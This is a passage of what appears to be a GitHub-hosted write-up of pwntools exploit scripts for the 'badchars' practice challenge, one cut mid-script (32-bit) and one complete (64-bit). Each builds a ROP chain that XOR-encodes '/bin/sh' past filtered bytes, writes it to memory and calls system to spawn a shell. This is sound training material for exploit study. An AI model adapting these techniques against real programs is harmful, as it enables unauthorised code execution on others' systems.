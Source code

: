```python
payload += p32(pop_pop_ret_sd_address)
payload += p32(sh_part_one, endianness="big")
payload += p32(write_start_address)
payload += p32(mov_ret_address)
payload += p32(pop_pop_ret_sd_address)
payload += p32(sh_part_two, endianness="big")
payload += p32(write_start_address+4)
payload += p32(mov_ret_address)
for i in xrange(8):
    payload += p32(pop_pop_ret_bc_address)
    payload += p32(write_start_address+i)
    payload += p32(2)
    payload += p32(xor_ret_address)
payload += p32(system_plt_address)
payload += "B" * 4
payload += p32(write_start_address)

p.sendline(payload)
p.interactive()
```

## badchars64

```python
from pwn import *

p = process("./badchars")

# 0x0000000000400b3b : pop r12 ; pop r13 ; ret
pop_pop_ret_23_address = 0x0000000000400b3b
# 0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
mov_ret_address = 0x0000000000400b34
# 0x0000000000400b40 : pop r14 ; pop r15 ; ret
pop_pop_ret_45_address = 0x0000000000400b40
# 0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
xor_ret_address = 0x0000000000400b30
# 0x0000000000400b39 : pop rdi ; ret
pop_ret_address = 0x0000000000400b39
# "".join([chr(2^ord(sh[i]) for i in xrange(len("/bin/sh\x00"))]) 
sh = 0x2d606b6c2d716a02
write_start_address = 0x006010f0
system_plt_address = 0x00000000004006F0

payload = ""
payload += "A" * (0x20+8)
payload += p64(pop_pop_ret_23_address)
payload += p64(sh, endianness="big")
payload += p64(write_start_address)
payload += p64(mov_ret_address)
for i in xrange(8):
    payload += p64(pop_pop_ret_45_address)
    payload += p64(2)
    payload += p64(write_start_address+i)
    payload += p64(xor_ret_address)
payload += p64(pop_ret_address)
payload += p64(write_start_address)
payload += p64(system_plt_address)

p.sendline(payload)
p.interactive()
```
